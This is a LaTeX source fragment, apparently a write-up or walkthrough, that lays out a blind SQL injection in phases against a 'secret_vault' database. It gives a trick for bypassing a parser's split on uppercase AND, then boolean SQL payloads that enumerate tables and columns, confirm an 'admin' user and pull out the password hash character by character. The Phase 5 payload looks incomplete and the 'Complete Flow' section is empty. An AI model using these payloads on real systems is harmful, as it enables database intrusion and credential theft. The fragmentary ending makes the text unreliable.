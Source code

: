 \documentclass[11pt]{article}
\begin{document}
Note: Use lowercase \lstinline|and| inside subqueries to avoid being split on
\lstinline| AND | (uppercase) by the vulnerable function's parser.

\subsection{Phase 2: Discover Tables}

\begin{lstlisting}[language=SQL]
(SELECT count(*) FROM information_schema.tables
 WHERE table_schema LIKE $_$secret_vault$_$
 and table_name LIKE $_$users$_$) = 1
\end{lstlisting}

\subsection{Phase 3: Discover Columns}

\begin{lstlisting}[language=SQL]
(SELECT count(*) FROM information_schema.columns
 WHERE table_schema LIKE $_$secret_vault$_$
 and table_name LIKE $_$users$_$
 and column_name LIKE $_$password_hash$_$) = 1
\end{lstlisting}

\subsection{Phase 4: Discover Rows (Users)}

\begin{lstlisting}[language=SQL]
(SELECT count(*) FROM secret_vault.users
 WHERE username LIKE $_$admin$_$) = 1
\end{lstlisting}

\subsection{Phase 5: Extract Data Character by Character}

\begin{lstlisting}[language=SQL]
(SELECT substr(password_hash,1,1) FROM secret_vault.users
 WHERE username LIKE $_$admin$_$) = $
-- Test each printable character until count > 0
\end{lstlisting}

\subsection{Complete Flow}
\end{document}
